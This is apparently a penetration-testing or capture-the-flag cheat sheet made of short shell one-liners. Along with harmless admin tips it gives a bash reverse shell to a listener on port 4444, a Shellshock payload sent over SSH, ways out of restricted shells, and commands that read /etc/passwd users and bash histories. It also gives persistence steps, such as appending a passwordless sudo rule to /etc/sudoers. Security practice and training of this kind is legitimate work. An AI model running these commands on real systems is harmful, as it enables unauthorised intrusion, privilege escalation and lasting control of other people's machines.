 Proper bash shell:

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Print all users in /etc/passwd from web injection:

```shell
cat /etc/passwd | awk -F':' '{print $1}'
```

Replace each ',' with a newline:

```shell
echo -n 'kas:asddas,asdkjlaskjdlasd:asda,asdasasd:aaaaaa' | sed 's/,/\n/g'
```

Print all text between |> and <| on a new line

```shell
grep -shzoP "(\|>)(.*?)(<\|)" response | sed  "s/|>/ /g" | sed "s/<|/\n/g"
find / -name "test.py" -type f 2>/dev/null
```

Port knocking:

```shell
nmap $TARGET_IP -p 7469,8475,9842 -r --max-retries 0 --max-parallelism 1 -sT --scan-delay 200ms --max-rtt-timeout 200ms -Pn
```

```shell
nc -z $TARGET_IP PORT1 PORT2 PORT3
```


Generate user password for use in /etc/passwd

```shell
openssl passwd -1 -salt salt password
```

Get all users with history:

```bash
find /home -name .bash_history -exec wc -l {} \; 2>/dev/null | sort | grep -v "^0"
```

Find all "test.py" files

```bash
find / -name "test.py" -type f 2>/dev/null
```

List all sudo commands for user:

```shell
sudo -l
```

Start HTTP server

```shell
python3 -m http.server
```

```shell
python -m SimpleHTTPServer
```

```shell
ruby -run -e httpd path/to/your/project -p 80
```

```shell
php -S 0.0.0.0:80
```

Escape profile restricted bash accounts with SSH access

```shell
ssh $USERNAME@$TARGET_IP -t "bash --noprofile"
```

```shell
echo os.system("/bin/bash")
```

Other methods:

```shell
ssh $USERNAME@$TARGET_IP -t "/bin/sh" or "/bin/bash"
```

```shell
#shellshock
ssh $USERNAME@TARGET_IP -t "() { :; }; /bin/bash"
```

Login using SSH key file

```bash
ssh -i private_id_rsa USER@$TARGET_IP -t "bash --noprofile"
```

Check for ports that are opened on other network devices

```bash
netstat -antup
```

```bash
ss -tunlp
```

---

Add current directory to the PATH variable:

```shell
export PATH=$PWD:$PATH
```

or use with SUDO:

```shell
sudo PATH=$PWD:$PATH /path/to/executable
```

---

Reverse shell to port 4444:
---
```shell
bash -c "bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1"
```

Assign user an id in case of NFS / mount
---
```shell
usermod -u $U_ID $USERNAME
```

Assign an id to a group
---
```shell
groupmod -g $GROUP_ID $GROUP_NAME
```

Add user to sudo
---
```shell
usermod -aG sudo $USERNAME
```

---

Add user to SUDOers:
---
```bash
echo "$USERNAME  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

---


Connect using SSH in case of old/weird encryption:
---

```shell
ssh -oHostKeyAlgorithms=+ssh-dss $USER@$TARGET_IP
```

or

```shell
ssh -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa $USER@$TARGET_IP
```

---
**Python install from setup.py**
---

```shell
pip . install
```